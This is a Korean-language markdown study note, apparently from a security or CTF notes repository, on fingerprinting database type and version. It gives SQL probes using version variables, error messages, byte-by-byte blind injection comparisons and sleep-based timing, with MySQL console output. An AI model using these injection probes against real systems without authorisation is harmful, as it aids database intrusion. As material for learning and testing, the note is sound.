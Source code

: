 # DBMS Fingerprinting
DBMS 종류와 버전 알아내기
아래는 위 정보를 알아내기 위한 범용적인 방법

```sql
/* 환경변수, 함수를 이용해 버전정보 알아내기 */
SELECT @@version
SELECT version()

/* 에러 메시지로 DBMS 확인하기 */
select 1 union select 1, 2;
# MySQL => ERROR 1222 (21000): The used SELECT statements have a different number of columns
(select * from not_exists_table)
# SQLite => Error: no such table: not_exists_table

/* Blind SQL Injection을 이용해 버전 정보를 한 바이트씩 비교하여 알아내기 */
mid(@@version, 1, 1)='5';
substr(version(), 1, 1)='P';

/* 출력이 존재하지 않는다면 시간 지연 함수로 알아내기 */
sleep(10)
pg_sleep(10)
```


### MYSQL

```sql
mysql> select @@version; # select version();
+-------------------------+
| @@version               |
+-------------------------+
| 5.7.29-0ubuntu0.16.04.1 |
+-------------------------+
1 row in set (0.00 sec)

mysql> select 1 union select 1, 2;
ERROR 1222 (21000): The used SELECT statements have a different number of columns

# @@version => '5.7.29-0ubuntu0.16.04.', mid(@@version, 1, 1) => '5'

mysql> select mid(@@version, 1, 1)='5';
+------------------------+
| mid(@@version,1,1)='5' |
+------------------------+
|                      1 |
+------------------------+
1 row in set (0.00 sec)

mysql> select mid(@@version, 1, 1)='6';
+------------------------+
| mid(@@version,1,1)='6' |
+------------------------+
|                      0 |
+------------------------+
1 row in set (0.00 sec)

mysql> select mid(@@version, 1, 1)='6' and sleep(2);
+---------------------------------------+
| mid(@@version, 1, 1)='6' and sleep(2) |
+---------------------------------------+
|                                     0 |
+---------------------------------------+
1 row in set (0.00 sec)
```